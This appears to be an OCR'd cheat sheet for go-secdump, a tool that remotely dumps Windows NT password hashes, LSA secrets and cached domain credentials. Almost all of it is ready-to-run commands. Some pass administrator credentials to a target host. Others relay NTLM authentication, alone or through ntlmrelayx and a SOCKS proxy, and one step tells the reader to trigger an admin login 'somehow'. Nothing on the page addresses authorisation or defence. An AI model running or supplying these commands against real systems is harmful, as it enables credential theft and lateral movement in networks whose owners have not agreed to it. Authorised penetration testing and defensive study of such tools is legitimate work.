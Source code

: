 # Go-secdump

## Github repo: https://github.com/jfjallid/go-secdump

## Dump NT Hashes from SAM, LSA Secrets and Domain Cached Credentials remotely

## Requirements: Read permissions on SAM and SECURITY hives (usually only NT AUTHORITY\SYSTEM has these permissions) and local group administrators have WriteDACL on the registry hives.

### Usage:

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local

### or

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam --lsa --dcc2

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam (Dump only SAM)

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --lsa (Dump only LSA)

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --dcc2 (Dump only DCC2 cache secrets)

# Dump secrets via NTLM Relaying

#### 1) ./go-secdump --host 192.168.0.100 -n --relay (Dump registry secrets using NTLM relaying)

### then

#### 2) Trigger an authentication with administrative access to 192.168.0.100 somehow, then wait for the dumped secrets

# Dump secrets via SOCKS Proxy

#### 1) ./ntlmrelayx.py -socks -t 192.168.0.100 -smb2support --no-http-server --no-wcf-server --no-raw-server

#### 2) ./go-secdump --host 192.168.0.100 --user Administrator -n --socks-host 127.0.0.1 --socks-port 1080

